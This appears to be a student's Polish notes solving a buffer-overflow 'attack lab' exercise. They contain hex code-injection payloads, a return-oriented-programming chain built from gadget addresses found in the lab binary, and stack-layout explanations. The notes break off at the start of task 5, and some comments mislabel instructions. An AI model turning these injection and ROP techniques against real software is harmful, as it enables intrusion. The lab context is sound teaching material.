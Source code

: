 48 c7 c7 88 a4 60 55 /* instrukcja mov */
68 5a 1c 40 00       /* instrukcja push */
c3 		      /* instrukcja push */
00 00 00
00 00 00 00 00 00 00 00 /* padding */
68 a4 60 55 00 00 00 00 /* początek input */
36 34 64 34 63 33 37 32 /* cookie jako string */

48 c7 c7 90 a4 60 55 c3 /* instrukcja */
00 00 00 00 00 00 00 00 /* padding */
00 00 00 00 00 00 00 00 /* padding */
68 a4 60 55 00 00 00 00 /* początek input */
5a 1c 40 00 00 00 00 00 /* touch3 */
36 34 64 34 63 33 37 32 /* cookie jako string */

## zad 4
0x64d4c372 - cookie
dwa gadgety - movq, popq, ret
0000000000401b7f - adres touch2 (7f 1b 40 00 00 00 00 00)

gadget 1 -> popq %rax (zdejmuje ze stosu cookie)
gadget 2 -> movq %rdi, %rax (umieszcza cookie w rax)

0000000000401d07 <getval_283>:
  401d07:	b8 58 90 90 c3       	mov    $0xc3909058,%eax         # popq %rax | nop
  401d0c:	c3                   	retq
gadget1: 0x0000000000401d07 + 0x1 = 0x0000000000401d08 (08 1d 40 00 00 00 00 00)

0000000000401d14 <getval_351>:
  401d14:	b8 3f 48 89 c7       	mov    $0xc789483f,%eax         # (q) %rdi <- %rax
  401d19:	c3                   	retq
gadget2: 0x0000000000401d14 + 0x2 = 0x0000000000401d16 (16 1d 40 00 00 00 00 00)

Idea chcemy zrobić ramkę stosu:
-----------
adres touch (adres wykorzystanu przez rat, gadgetu 2)
gadget 2 (adres wykorzystany przez ret, gadgetu 1)
cookie
gadget 1
padding
-----------
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* 24 bajty paddingu */
08 1d 40 00 00 00 00 00 /* adres gadget 1 */
72 c3 d4 64 00 00 00 00 /* cookie */
16 1d 40 00 00 00 00 00 /* adres gadget 2 */
7f 1b 40 00 00 00 00 00 /* adres touch2 */

## zad 5
Mamy:
adres touch3: 0x0000000000401c5a (5a 1c 40 00 00 00 00 00)
cookie jako string: (36 34 64 34 63 33 37 32)
